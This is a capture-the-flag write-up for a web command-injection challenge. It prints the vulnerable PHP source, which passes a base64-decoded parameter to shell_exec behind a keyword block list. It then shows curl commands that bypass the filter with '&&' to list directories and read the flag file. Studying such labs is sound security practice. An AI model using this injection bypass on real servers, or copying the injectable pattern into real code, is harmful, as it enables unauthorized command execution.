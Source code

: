 # Command Injection 2
Web

## Challenge 

I pretty much made your life harder now. Can you do it?

http://challs.hats.sg:1338

Flag format: flag{.+}

Challenge by: Gladiator


## Solution

http://challs.hats.sg:1338/

	ONLY BASE 64! COMMANDO 2
	HAH! I HAVE DEFENCES NOW!
	GET me a 'cmd'
	You can also GET 'SRC' if you want to..

http://challs.hats.sg:1338/?SRC

	<?php 
	    if(isset($_GET['SRC'])){
	        show_source("index.php");
	        die();
	    }
	    $cmd = base64_decode($_GET['cmd']);
	    if(!$cmd){
	        echo "ONLY BASE 64!";
	    }
	    else{
	        $f_array = explode(";", $cmd);
	        $s_array = explode(" ", $f_array[1]);
	        $forbidden = ['cat','less','more','head','tail','od','hexdump','echo','touch','>','<','>>','<<','|','\\','$','bash','sh','sed','awk'];
	        foreach ($s_array as $value) {
	            if(in_array($value, $forbidden)){
	                echo "HACKER!";
	                die();
	            }
	        }
	        $output = shell_exec("echo ". $cmd);
	        echo "<pre>$output</pre>";    
	    }

	?>
	<!DOCTYPE html>
	<html>
	<head>
	    <title></title>
	</head>
	<body>
	    COMMANDO 2<br>
	    HAH! I HAVE DEFENCES NOW!<br>
	    GET me a 'cmd'<br>
	    You can also GET 'SRC' if you want to..
	</body>
	</html>

There are forbidden chars. We cannot use `;` but we can use `&`

	$ curl -s http://challs.hats.sg:1338/?cmd=$(echo 'HELLO WORLD && ls -la ../../../flag' | base64) | html2text
	HELLO WORLD
	total 12
	drwxrwxr-x 1 root root 4096 Sep  6 18:42 .
	drwxr-xr-x 1 root root 4096 Sep  7 06:33 ..
	-rwxrwxr-x 1 root root   85 Sep  6 18:41 flag.txt

Cat the flag

	$ curl -s http://challs.hats.sg:1338/?cmd=$(echo 'HELLO WORLD && cat ../../../flag/flag.txt' | base64) | html2text
	HELLO WORLD
	flag
	{there_was_no_light!_in_orchard_roaddddddddddddddddddddddddddddddddddddddddddd}

## Flag

	flag{there_was_no_light!_in_orchard_roaddddddddddddddddddddddddddddddddddddddddddd}